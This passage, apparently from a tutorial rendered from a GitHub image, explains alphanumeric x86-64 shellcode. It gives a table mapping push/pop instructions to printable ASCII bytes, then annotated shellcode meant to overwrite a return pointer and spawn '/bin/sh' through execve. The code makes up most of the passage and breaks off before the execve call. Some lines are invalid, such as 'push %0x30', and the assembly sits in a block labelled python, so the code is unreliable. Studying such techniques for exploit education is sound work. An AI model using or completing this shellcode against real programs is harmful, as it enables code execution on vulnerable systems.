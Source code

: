 ```
Assembly         Hexadecimal             Alphanumeric ASCII
push %rax           \x50                        P
push %rcx           \x51			Q
push %rdx	    \x52			R
push %rbx           \x53			S
push %rsp	    \x54			T
push %rbp	    \x55			U
push %rsi	    \x56			V
push %rdi	    \x57			W

pop %rax            \x58                        X
pop %rcx            \x59                        Y
pop %rdx            \x5a                        Z
```

### The shellcode:

Using the above set of instructions we can start forming our shellcode. We will be making use of the execve syscall to spawn a shell.

```python=
# add $0x8, $rsp	; so that we do not overwrite the return pointer on the stack.
pop %rax
pop %rax

# to get 0x000000ff
push %0x30
push %rsp
push %rcx
pop %rax
xor %0x35, %al
push %rax
imul $0x33, (%rcx), %esi

# to get 0x000000f8
push %rsi
pop %rax
xor %0x30, %al
xor %0x37, %al

# to write -8 as a 32-bit dword at 0x74(%rcx)
mov 0x74(%rcx), %eax
xor %eax, 0x74(%rcx)
xor %esi, 0x75(%rcx)
xor %esi, 0x76(%rcx)
xor %esi, 0x77(%rcx)

# to get to the return pointer
xor %esi, (%rcx, %rdi, 2)
xor (%rcx, %rdi, 2), %rsi

# to push '/bin/sh' onto the stack, we will make use of a xor key, to encode and decode the non-ascii characters in the string. With this we ensure that the argument string "/bin/sh" is present in %rax.
push $0x5658356a
pop %rax
xor %eax, 0x4b(%rsi)
xor %eax, 0x53(%rsi)
xor 0x4f(%rsi), %rax

# writing the actual execve shellcode
push %rax
push %rsp
push $0x30
```